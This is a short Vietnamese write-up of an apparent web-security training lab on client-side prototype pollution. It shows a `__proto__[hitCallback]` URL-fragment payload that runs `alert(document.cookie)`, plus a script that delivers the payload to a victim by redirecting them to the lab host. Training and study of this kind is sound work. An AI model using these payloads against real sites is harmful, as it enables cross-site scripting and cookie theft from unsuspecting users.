

# Lab: Client-side prototype pollution in third-party libraries

Trong live chat, DOM Invader phát hiện được dấu hiệu sau:

Sau khi scan gadget, thu được gadget `hitCallback`.

Sử dụng payload sau thì hiện alert trên máy local:

```
/chat#__proto__[hitCallback]=alert(document.cookie)
```

Deliver tới victim với body:

```javascript
<script>
  location="https://0a88006903c4a1a480c27185007500f0.web-security-academy.net/chat#__proto__[hitCallback]=alert(document.cookie)";
</script>
```
